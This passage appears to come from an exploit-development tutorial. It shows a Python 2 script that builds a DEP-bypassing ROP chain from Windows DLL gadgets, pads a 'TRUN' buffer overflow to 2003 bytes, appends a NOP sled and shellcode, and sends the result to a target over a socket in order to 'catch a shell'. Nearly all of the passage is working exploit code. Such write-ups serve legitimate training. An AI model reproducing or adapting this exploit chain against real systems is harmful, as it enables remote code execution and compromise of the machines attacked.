 ```python
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

def main():

    rop_chain = create_rop_chain()
    nop_sled = "\x90"*8

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += nop_sled
    buffer += shellcode
    buffer += "C"*(3500-2003-len(rop_chain)-len(nop_sled)-len(shellcode))

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()


```

Let's restart the application outside of the debugger, and run the exploit to see if we catch a shell:
